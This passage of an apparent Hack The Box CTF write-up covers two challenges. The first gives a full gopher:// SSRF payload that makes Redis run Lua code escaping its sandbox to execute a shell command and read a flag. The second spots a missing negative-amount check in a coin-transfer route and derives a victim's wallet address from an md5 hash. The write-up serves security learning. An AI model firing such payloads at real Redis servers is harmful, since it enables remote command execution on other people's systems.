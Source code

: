 [https://maxchadwick.xyz/blog/ssrf-exploits-against-redis](https://maxchadwick.xyz/blog/ssrf-exploits-against-redis)

And we also there's a recent CVE involved with redis.

```
gopher://127.0.0.1:6379/_*3%0d%0a%244%0d%0aeval%0d%0a%24197%0d%0alocal%20io_l%20%3d%20package.loadlib(%22%2fusr%2flib%2fx86_64-linux-gnu%2fliblua5.1.so.0%22%2c%20%22luaopen_io%22)%3b%20local%20io%20%3d%20io_l()%3b%20local%20f%20%3d%20io.popen(%22cat%20%2froot%2fflag%22%2c%20%22r%22)%3b%20local%20res%20%3d%20f%3aread(%22*a%22)%3b%20f%3aclose()%3b%20return%20res%0d%0a%241%0d%0a0%0d%0a*1%0d%0a%244%0d%0aquit
```

![](red-6.png)

**HTB{r3d_righ7_h4nd_t0_th3_r3dis_land!}**

### Genesis Wallet (325 points)

The value of this challenge is 325 points & +110 players have solved this challenge.

![](genesis-1.png)

We're given a website for login and registration.

![](genesis-2.png)

In the dashboard, there's a feature where we could transfer a `Genesis Coin`.

After doing some static analysis, there's something that needs to point out.

At `challenge/routes/index.js#L165:L167`, We could see there's no sanitation about the negative number.

```javascript
if (parseFloat(user.balance) < parseFloat(amount)) return res.status(403).send(response('Insufficient Funds!'));
if (!addressExp.test(receiver)) return res.status(403).send(response('Invalid receiver address format!'));
if (receiver == user.address) return res.status(403).send(response(`You can't send to your own address!`));
```
We need to drain the `icarus` balance, so we need to know the address for the `icarus` account. Its explained at here `challenge/database.js#L50`

```javascript
let address = crypto.createHash('md5').update(user).digest("hex");
```

This means, that the address for `icarus` is the result of encryption of the username `icarus`.

```bash
└─$ echo -n "icarus" | md5sum           
1ea8b3ac0640e44c27b3cb8a258a87f8  -
```

![](genesis-3.png)
